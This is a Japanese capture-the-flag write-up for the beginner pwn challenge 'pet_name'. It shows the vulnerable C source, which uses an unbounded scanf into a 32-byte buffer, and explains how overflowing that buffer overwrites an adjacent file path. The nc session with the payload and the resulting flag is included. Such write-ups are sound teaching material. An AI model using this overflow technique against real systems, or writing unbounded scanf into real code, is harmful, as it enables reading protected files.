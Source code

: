 ## pet_name (100pt / 586 solves) [beginner]
> ペットに名前を付けましょう。ちなみにフラグは/home/pwn/flag.txtに書いてあるみたいです。
>
> nc [問題鯖のホスト名] [ポート番号]

バッファオーバーフローっぽい問題文。次に示すソースコードが与えられている。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void init() {
    // You don't need to read this because it's just initialization
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

int main() {
    init();

    char pet_name[32] = {0};
    char path[128] = "/home/pwn/pet_sound.txt";

    printf("Your pet name?: ");
    scanf("%s", pet_name);

    FILE *fp = fopen(path, "r");
    if (fp) {
        char buf[256] = {0};
        if (fgets(buf, sizeof(buf), fp) != NULL) {
            printf("%s sound: %s\n", pet_name, buf);
        } else {
            puts("Failed to read the file.");
        }
        fclose(fp);
    } else {
        printf("File not found: %s\n", path);
    }
    return 0;
}
```

scanf関数でバッファオーバーフローが出来そう。目標はバッファオーバーフローによって配列pathの中身を"/home/pwn/flag.txt"に書き換えることである。  
同じく配布されているバイナリをgdb-pedaで調べると、scanf関数が実行される時点で配列pathは配列pet_nameのすぐ下（pet_nameの先頭から32バイト下）にあることがわかる。つまり、例えば`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt`と入力してやればフラグが得られるはずである。  
そしてその通り入力すると、フラグが得られた。
```
$ nc pet-name.challenges.beginners.seccon.jp 9080
Your pet name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt sound: ctf4b{3xp1oit_pet_n4me!}
```

### `ctf4b{3xp1oit_pet_n4me!}`

ちなみに実際にはここまで綿密にやっていないし、ソースコードを見てすらいない。
